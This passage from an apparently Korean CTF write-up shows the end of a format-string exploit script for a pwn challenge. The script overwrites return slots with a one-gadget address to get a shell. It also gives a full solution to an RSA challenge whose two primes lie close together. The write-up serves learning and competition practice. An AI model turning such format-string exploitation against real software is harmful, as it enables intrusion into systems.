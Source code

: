 ```python
og = l.address + 0xebd38
r12 = mainrbp + (0x7ffd93f79e70 - 0x7ffd93f7aff0)
ret = mainrbp + (0x7ffd93f79e88 - 0x7ffd93f7aff0)
payload = '%17$n%18$n'
payload += f'%{(og & ((1 << 16) - 1))}c'
payload += f'%19$hn'
payload += f'%{((og >> 16) & ((1 << 16) - 1)) - (og & ((1 << 16) - 1)) + 0x10000}c'
payload += f'%20$hn'
payload += 'a' * 4
print(hex(0x28 - len(payload)))
payload = payload.encode()
payload += p64(r12)
payload += p64(r12 + 4)
payload += p64(ret)
payload += p64(ret + 2)
mc(0, 0)
rp(payload)
#gdb.attach(p, f"b* {l.address + (0x7f8ac570c734 - 0x7f8ac5695000)}")
p.sendlineafter(b'> ', b'3')
p.interactive()
```

---
## crypto/Encrypted flag

`q = nextprime(p)` 관계이므로, sqrt(n)에서 nextprime 취해주면 금방 q를 구할 수 있다. p, q 구할 수 있으니까 끝났다.

### exploit.py

```python
from Crypto.Util.number import long_to_bytes
from sympy import nextprime
import gmpy2

n = 54756668623799501273661800933882720939597900879404357288428999230135977601404008182853528728891571108755011292680747299434740465591780820742049958146587060456010412555357258580332452401727868163734930952912198058084689974208638547280827744839358100210581026805806202017050750775163530268755846782825700533559
e = 65537
eflag = 7728462678531582833823897705285786444161591728459008932472145620845644046450565339835113761143563943610957661838221298240392904711373063097593852621109599751303613112679036572669474191827826084312984251873831287143585154570193022386338846894677372327190250188401045072251858178782348567776180411588467032159

p = gmpy2.iroot(n, 2)[0]
q = nextprime(p)
while n % q:
    q = nextprime(q)
print(q)

p = n // q
e = 65537

phi = (p - 1) * (q - 1)

d = gmpy2.invert(e, phi)

c = pow(eflag, d, n)

print(long_to_bytes(c))
```

---